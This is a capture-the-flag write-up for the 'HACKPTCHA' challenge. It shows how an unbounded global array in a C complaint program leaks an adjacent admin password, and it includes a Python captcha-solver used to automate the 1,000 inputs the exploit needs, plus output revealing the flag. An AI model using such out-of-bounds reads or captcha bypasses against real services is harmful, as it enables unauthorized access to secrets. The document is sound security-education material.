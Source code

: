 ## HACKPTCHA [70]

**Tags**: array overflow, boundary checking, programming

**Description**: Recover the admin password for `shell.cyberstakesonline.com:56440`. Source and binary: [hackptcha.c](hackptcha.c), [hackptcha](hackptcha)

## Solution
Like any helpful help desk, your complaints are initially routed to `/dev/null` :) :) :)
```C
	complaints_file = "/dev/null";
```

The flag is read into the global variable `admin_password` from `./flag`:
```C
	FILE *flag = fopen("./flag", "r");
	admin_password = fgets(malloc(100), 100, flag);
	fclose(flag);
```

The array of complaint strings, the complaints filename, and the admin password variables are all stored contiguously in global memory. The order is very important:
```C
const char *complaints[999] = {NULL};
const char *complaints_file = NULL;
const char *admin_password = NULL;
```

The `complaints[]` array is defined as 999 items in length. However, by examining the `complain()` function, we can see that there is no enforcing that size. It simply iterates forward until a `NULL` pointer is reached:
```
void complain() {
	const char **complaint = complaints;
	int counter = 0;
	while(*complaint != NULL) {
		complaint++;
		counter++;
	}
	if(counter > 10)
		captcha();
	printf("> ");
	*complaint = fgets(malloc(100), 100, stdin);
}
```

This means that once we have entered 1,000 complaints (complaints 0-999), the 1,001st complaint will cause `complain()` to skip *over* `complaints_file` and `admin_password` in memory and stick the next complaint contiguously after `admin_password`. The function `dump()` iterates over `complaints[]` in the same way, printing out strings until it encounters a `NULL` pointer. If we are able to completely fill up the `complaints[]` array and then dump strings, it will print out `complaints_file` and `admin_password` as well since they are *not* `NULL` pointers.

Armed with this knowledge, we need to find a *smart* way to lodge 1,000 complaints. However, we can see that after the 11th complaint (complaint #10), the user is forced to validate a "captcha" before each complaint to discourage spamming:
```C
void captcha() {
	const char ops[] = {'+', '-', '*'};
	int a = rand() % 100;
	int b = rand() % 100;
	int c = rand() % 100;
	char o1 = ops[rand() % 3];
	char o2 = ops[rand() % 3];
	printf("Captcha: %d %c %d %c %d = ", a, o1, b, o2, c);

	char *response = fgets(malloc(100), 100, stdin);

	int result = a;
	switch(o1) {
		case '+': result += b; break;
		case '-': result -= b; break;
		case '*': result *= b; break;
	}
	switch(o2) {
		case '+': result += c; break;
		case '-': result -= c; break;
		case '*': result *= c; break;
	}
	
	if(result != atoi(response)) {
		puts("No automated complaints!");
		exit(0);
	}
	free(response);
}
```

The captcha is in the form:
```
Captcha: 83 - 86 * 77 =
```

We can write a Python function to solve captchas automatically:
```Python
def SolveCaptcha(cap):
  splitcap = cap.split(' ')
  
  a = int(splitcap[1])
  b = int(splitcap[3])
  c = int(splitcap[5])

  op1 = splitcap[2]
  op2 = splitcap[4]

  res = 0

  if op1 == '+':
    res = a + b
  elif op1 == '-':
    res = a - b
  else:
    res = a * b

  if op2 == '+':
    res = res + c
  elif op2 == '-':
    res = res - c
  else:
    res = res * c

  return str(res)
```

See [solve.py](solve.py) for a full solution. After lodging all 1,000 complaints and switching to `pwnlib`'s interactive mode, we can print out all of the complaints. At the very end of the output, we can see `complaints_file` (`/dev/null`) and `admin_password` (`b262a5c0490c514a0c0235f1ac69712f`):
```
[...]
Captcha: 65 - 95 - 27 = -57
Captcha: 2 - 89 + 5 = -82
Captcha: 86 - 10 + 28 = 104
[*] Switching to interactive mode
$ r
asdf
asdf
asdf
[...]
asdf
asdf
asdf
/dev/nullb262a5c0490c514a0c0235f1ac69712fasdf
asdf

[w]rite a complaint
[r]eview your complaints
[q]uit
> $
```